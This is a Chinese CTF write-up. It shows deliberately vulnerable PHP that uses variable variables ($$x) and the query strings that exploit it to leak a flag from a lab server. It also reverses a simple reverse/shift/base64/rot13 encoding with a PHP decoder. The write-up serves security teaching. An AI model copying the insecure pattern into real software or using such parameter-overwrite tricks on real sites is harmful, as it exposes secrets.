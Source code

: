 ## 搞吧骚年！！！ 					

查看 `robots.txt` ，

```
User-agent: *
Disallow:index.txt
```

得到 `index.txt` ,查看得到后端源码：

```php

<?php

include 'flag.php';

$yy = "d";
$i = "c";
$bb = 'yy';

foreach($_POST as $x => $y){
    $$x = $y;
}

foreach($_GET as $x => $y){
    $$x = $$y;
}

foreach($_GET as $x => $y){
    if($_GET['flag'] === $x && $x !== 'flag'){
        exit($bb);
    }
}

if(!isset($_GET['flag']) && !isset($_POST['flag'])){
    exit($yy);
}

if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){
    exit($i);
}



echo "the flag is: ".$flag;
```

变量覆盖，

![0y4dJI.png](https://s1.ax1x.com/2020/10/10/0y4dJI.png)

在页面底部出现d 是为什么呢？

程序执行的时候，执行到了箭头所指，就退出了,随之显示`$yy`的值。

![0y5J10.png](https://s1.ax1x.com/2020/10/10/0y5J10.png)

那么我们想着如果把flag的值赋给 $yy ,那不就输出 flag 了吗。

正好可以用到变量覆盖达成目的。

```php
foreach($_GET as $x => $y){
    $$x = $$y;     // 这里传入 yy=flag ,变量覆盖至后就变成了 $yy=$flag.
}
```

传参` http://62.234.56.138:8105/?yy=flag` 直接得到 flag.

当然相同的道理这样也可以： `http://62.234.56.138:8105/?flag=flag&i=flag`



## decode_me

下载附件，得到

```php
<?php
$miwen="a1zLbk3p0A3rmE2nt5Jn6gas";

function encode($str){
    $_o=strrev($str);
    // echo $_o;
        
    for($_0=0;$_0<strlen($_o);$_0++){
       
        $_c=substr($_o,$_0,1);
        $__=ord($_c)+1;
        $_c=chr($__);
        $_=$_.$_c;   
    } 
    return str_rot13(strrev(base64_encode($_)));
}

highlight_file(__FILE__);
/*
   逆向加密算法，解密$miwen就是flag
*/
?>
```

这里需要逆向写个解密脚本。

为了防止那些花里胡哨的变量名闪了眼，这里利用记事本统一替换，顺便加上解释。

```php
<?php
$miwen="a1zLbk3p0A3rmE2nt5Jn6gas";

function encode($str){
    $str=strrev($str);
    // echo $str;
        
    for($i=0;$i<strlen($str);$i++){
       
        $_c=substr($str,$i,1);   // 截取每位字符串
        $__=ord($_c)+1;          // 转换为 ascii + 1
        $_c=chr($__);            //  转换为 字符
        $_=$_.$_c;               //  拼接新字符串
    } 
    return str_rot13(strrev(base64_encode($_)));
}

highlight_file(__FILE__);
/*
   逆向加密算法，解密$miwen就是flag
*/
?>
```

那么就可以反过来写脚本了。

```php
<?php

$miwen="a1zLbk3p0A3rmE2nt5Jn6gas";

$str = base64_decode(strrev(str_rot13($miwen)));

// echo $str;

for($i=0;$i<strlen($str);$i++){
       
        $_c=substr($str,$i,1);   
        $__=ord($_c)-1;         
        $_c=chr($__);            
        $_=$_.$_c;           
    } 
	
	$str = strrev($_);
	echo $str;
```



ok。